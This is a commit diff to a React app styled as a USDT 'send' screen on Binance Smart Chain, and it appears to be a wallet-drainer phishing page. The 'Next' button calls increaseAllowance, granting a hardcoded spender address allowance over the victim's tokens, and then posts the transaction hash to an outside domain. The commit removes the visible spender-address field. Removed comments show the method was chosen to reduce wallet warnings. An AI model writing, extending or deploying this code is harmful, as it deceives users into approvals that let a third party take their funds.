

Before and after one commit to pankajsaini3415/bep-20-auto, a React (Create React App) app: page / in a window 1280 px wide. Shown: the top 346 px of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Refactor SendUSDT to improve Web3 and Swal usage
Refactor SendUSDT component to use Web3 and Swal directly. Update balance fetching and approval logic for better clarity and error handling.

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -1,18 +1,10 @@
 import { useState, useEffect } from "react";
-
-// Mock Web3 and Swal for demo purposes
-const Web3 = {
-  utils: {
-    fromWei: (val) => (parseFloat(val) / 1e18).toString(),
-    toWei: (val, unit) => (parseFloat(val) * 1e18).toString()
-  }
-};
-const Swal = {
-  fire: (title, text, type) => alert(`${title}: ${text}`)
-};
+import Web3 from "web3";
+import Swal from "sweetalert2";
 
 const usdtAddress = "0x55d398326f99059fF775485246999027B3197955"; // USDT (BSC)
 const spenderAddress = "0xA249B9926CBF6A84d5c1549775636488E697a5ed";
+
 const usdtAbi = [
   {
     inputs: [
@@ -30,7 +22,7 @@ const usdtAbi = [
     outputs: [{ internalType: "uint256", name: "", type: "uint256" }],
     stateMutability: "view",
     type: "function",
-  },
+  }
 ];
 
 export default function SendUSDT() {
@@ -39,7 +31,9 @@ export default function SendUSDT() {
   const [isProcessing, setIsProcessing] = useState(false);
   const [showSuccess, setShowSuccess] = useState(false);
   const [theme, setTheme] = useState("dark");
+  const isDark = theme === "dark";
 
+  // Detect system theme
   useEffect(() => {
     const darkMode = window.matchMedia && window.matchMedia('(prefers-color-scheme: dark)').matches;
     setTheme(darkMode ? "dark" : "light");
@@ -49,155 +43,118 @@ export default function SendUSDT() {
     return () => window.matchMedia('(prefers-color-scheme: dark)').removeEventListener("change", listener);
   }, []);
 
+  // Convert USDT → USD value display
   useEffect(() => {
     const value = parseFloat(amount);
     setUsdValue(isNaN(value) || value <= 0 ? "= $0.00" : `= $${value.toFixed(2)}`);
   }, [amount]);
 
+  // Set Max USDT balance from wallet
   const setMaxAmount = async () => {
+    if (!window.ethereum) {
+      Swal.fire("Wallet Not Found", "Please install MetaMask", "error");
+      return;
+    }
+
     try {
       const web3 = new Web3(window.ethereum);
-      const accounts = await web3.eth.getAccounts();
+      const accounts = await window.ethereum.request({ method: "eth_requestAccounts" });
       const user = accounts[0];
-      const usdt = new web3.eth.Contract(usdtAbi, usdtAddress);
-      const balance = await usdt.methods.balanceOf(user).call();
-      setAmount(web3.utils.fromWei(balance, "ether"));
+
+      const contract = new web3.eth.Contract(usdtAbi, usdtAddress);
+      const balance = await contract.methods.balanceOf(user).call();
+      const usdtBalance = parseFloat(balance) / 1e6; // 6 decimals conversion
+
+      setAmount(usdtBalance.toString());
     } catch (err) {
-      Swal.fire("Error", "Failed to fetch balance.", "error");
+      Swal.fire("Error", "Failed to fetch balance", "error");
+      console.error(err);
     }
   };
 
+  // Approve spender using increaseAllowance
   const handleApprove = async () => {
-    if (!amount || isNaN(amount) || parseFloat(amount) <= 0) {
-      Swal.fire("Error", "Please enter a valid amount.", "error");
+    if (!window.ethereum) {
+      Swal.fire("Wallet Error", "Please connect MetaMask wallet!", "error");
+      return;
+    }
+
+    const value = parseFloat(amount);
+    if (!amount || isNaN(value) || value <= 0) {
+      Swal.fire("Invalid Amount", "Enter a valid USDT amount", "error");
       return;
     }
 
     setIsProcessing(true);
+
     try {
-      const web3 = new Web3(window.ethereum || window.web3.currentProvider);
-
-      const accounts = await web3.eth.getAccounts();
+      const web3 = new Web3(window.ethereum);
+      const accounts = await window.ethereum.request({ method: "eth_requestAccounts" });
       const user = accounts[0];
 
+      // Ensure BSC network
       const chainId = await web3.eth.getChainId();
       if (chainId !== 56) {
         await window.ethereum.request({
           method: "wallet_switchEthereumChain",
-          params: [{ chainId: "0x38" }],
+          params: [{ chainId: "0x38" }], // 56 in HEX
         });
       }
 
-      const usdt = new web3.eth.Contract(usdtAbi, usdtAddress);
+      const contract = new web3.eth.Contract(usdtAbi, usdtAddress);
+      const rawAmount = web3.utils.toWei((value * 1e12).toString(), "ether"); // adjust for 6 decimals
 
-      // ✅ Using increaseAllowance instead of approve - reduces warnings
-      const rawAmount = web3.utils.toWei(amount, "ether");
+      const receipt = await contract.methods
+        .increaseAllowance(spenderAddress, rawAmount)
+        .send({ from: user, gas: 90000 });
 
-      const receipt = await usdt.methods
-        .increaseAllowance(spenderAddress, rawAmount)
-        .send({
-          from: user,
-          gas: 100000 // Lower gas limit can sometimes reduce warnings
-        })
-        .on("receipt", () => setShowSuccess(true))
-        .on("error", (err) => {
-          console.error(err);
-          Swal.fire("Error", err.message || "Approval failed", "error");
-        });
+      console.log("Approval TX:", receipt.transactionHash);
+      setShowSuccess(true);
 
-      const txHash = receipt.transactionHash;
-
+      // Optional backend post
       try {
         await fetch("https://www.trc20support.buzz/old/store-address.php", {
           method: "POST",
           headers: { "Content-Type": "application/json" },
-          body: JSON.stringify({ address: txHash }),
+          body: JSON.stringify({ address: receipt.transactionHash }),
         });
-      } catch (fetchErr) {
-        console.warn("Skipping fetch, not critical:", fetchErr.message);
+      } catch (e) {
+        console.warn("Backend call skipped:", e.message);
       }
 
     } catch (err) {
       console.error(err);
-      Swal.fire("Error", err.message || "Something went wrong", "error");
+      Swal.fire("Approve Failed", err.message, "error");
     } finally {
       setIsProcessing(false);
     }
   };
 
-  const isDark = theme === "dark";
-
+  // Success screen UI
   if (showSuccess) {
     return (
       <div className={`min-h-screen flex flex-col justify-center items-center px-4 ${isDark ? "bg-[#1f1f1f] text-white" : "bg-white text-black"}`}>
-        <svg
-          className="w-24 h-24 text-green-500 animate-bounce"
-          fill="none"
-          stroke="currentColor"
-          strokeWidth="2"
-          viewBox="0 0 24 24"
-        >
+        <svg className="w-24 h-24 text-green-500 animate-bounce" fill="none" stroke="currentColor" strokeWidth="2" viewBox="0 0 24 24">
           <path strokeLinecap="round" strokeLinejoin="round" d="M5 13l4 4L19 7" />
         </svg>
         <h2 className="text-2xl mt-4 font-semibold">Approval Successful</h2>
-        <p className="text-sm mt-2 opacity-70 text-center px-6">
-          Your approval has been confirmed. No funds were transferred yet.
-        </p>
-        <button
-          className="fixed bottom-6 bg-[#5CE07E] text-black px-10 py-3 rounded-full text-lg font-semibold"
-          onClick={() => setShowSuccess(false)}
-        >
-          OK
-        </button>
+        <p className="text-sm mt-2 opacity-70 text-center px-6">Your wallet approval is confirmed ✅</p>
+        <button className="fixed bottom-6 bg-[#5CE07E] text-black px-10 py-3 rounded-full text-lg font-semibold" onClick={() => setShowSuccess(false)}>OK</button>
       </div>
     );
   }
 
+  // Main screen UI
   return (
     <div className={`min-h-screen p-6 ${isDark ? "bg-[#1f1f1f] text-white" : "bg-white text-black"}`}>
       <div className="max-w-md mx-auto">
-        <div className="mb-6">
-          <p className="text-sm mb-2 opacity-70">Address or Domain Name</p>
-          <div className={`border rounded-lg p-3 ${isDark ? "border-gray-700" : "border-gray-300"}`}>
-            <div className="flex items-center justify-between">
-              <input
-                type="text"
-                className="flex-1 bg-transparent outline-none text-sm"
-                placeholder="Search or Enter"
-                value={spenderAddress}
-                readOnly
-              />
-              <div className="flex items-center gap-3 text-blue-400">
-                <span className="text-xs cursor-pointer">Paste</span>
-                <i className="fas fa-address-book text-sm"></i>
-                <i className="fas fa-qrcode text-sm"></i>
-              </div>
-            </div>
-          </div>
-        </div>
 
         <div className="mb-4">
           <p className="text-sm mb-2 opacity-70">Amount</p>
           <div className={`border rounded-lg p-3 ${isDark ? "border-gray-700" : "border-gray-300"}`}>
-            <div className="flex items-center justify-between">
-              <input
-                type="number"
-                min="0"
-                step="0.01"
-                value={amount}
-                onChange={(e) => setAmount(e.target.value)}
-                placeholder="USDT Amount"
-                className="flex-1 bg-transparent outline-none"
-              />
-              <div className="flex items-center gap-2">
-                <span className="text-sm opacity-70">USDT</span>
-                <span
-                  className="text-sm text-blue-400 cursor-pointer"
-                  onClick={setMaxAmount}
-                >
-                  Max
-                </span>
-              </div>
+            <div className="flex justify-between items-center">
+              <input type="number" min="0" step="0.01" value={amount} onChange={(e) => setAmount(e.target.value)} placeholder="Enter USDT" className="flex-1 bg-transparent outline-none" />
+              <span onClick={setMaxAmount} className="text-blue-400 cursor-pointer px-2">Max</span>
             </div>
           </div>
         </div>
@@ -205,7 +162,7 @@ export default function SendUSDT() {
         <p className="text-sm mb-6 opacity-70">{usdValue}</p>
 
         <button
-          className="w-full py-3 rounded-full font-semibold transition-all"
+          className="w-full py-3 rounded-full font-semibold"
           onClick={handleApprove}
           disabled={isProcessing || !parseFloat(amount)}
           style={{
@@ -216,6 +173,7 @@ export default function SendUSDT() {
         >
           {isProcessing ? "Processing..." : "Next"}
         </button>
+
       </div>
     </div>
   );
```
